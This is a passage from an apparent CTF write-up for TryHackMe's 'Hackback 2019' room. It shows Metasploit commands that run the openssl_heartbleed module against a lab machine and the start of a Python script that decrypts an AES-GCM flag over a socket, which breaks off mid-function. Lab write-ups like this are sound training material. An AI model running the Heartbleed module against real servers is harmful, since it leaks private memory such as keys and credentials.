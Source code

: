 Just follow the trail of the sub-boxes, TH.... until you get your flag.

<span id="7"></span>

## Task 7: [Web exploitation] Heartbleed

This challenge is based on the real-world SSL exploitation, heartbleed. You can complete this challenge with Metasploit. Launch you Metasploit with the following command

```
msfconsole
```

After that, search for heartbleed module.

![metasploit](/assets/images/THM/2020-08-11-hackback-2019/task-7/1.webp)

Use the following setup to perform the exploit.

```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed
msf5 > set RHOSTS <Machine IP>
msf5 > set verbose true
msf5 > run
```

<span id="8"></span>

## Task 8: [Scripting] AES-GCM

Here comes my favorite part, the block cipher. Oh yes!!!!!! Block cipher FTW. (cough) sorry. For this task, you are required to decrypt the [AES-GCM mode](https://cryptography.io/en/latest/hazmat/primitives/symmetric-encryption/#cryptography.hazmat.primitives.ciphers.modes.GCM) block cipher. But before that, you need to make a socket connection (like the previous task) with the UDP server.

Alright, this is the flow of my code

1. Send payload 'hello' to receive the first response
1. Send payload 'ready' to reveal Keys, IV, and checksum for the flag
1. send payload 'final' TWICE to receive encrypted flag followed by the tag
1. Decrypt the flag
1. Check the plaintext with checksum. If checksum not match, repeat step 4
1. Print the plaintext if checksum match

```python
import socket
import sys
import hashlib

from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives.ciphers import (
    Cipher, algorithms, modes
)

host = sys.argv[1]
port = 4000

def AES_GCM_decrypt(key, iv, ciphertext, tag):
	associated_data = ''
	decryptor = Cipher(algorithms.AES(key), modes.GCM(iv,tag), backend=default_backend()).decryptor()
	decryptor.authenticate_additional_data(associated_data)
```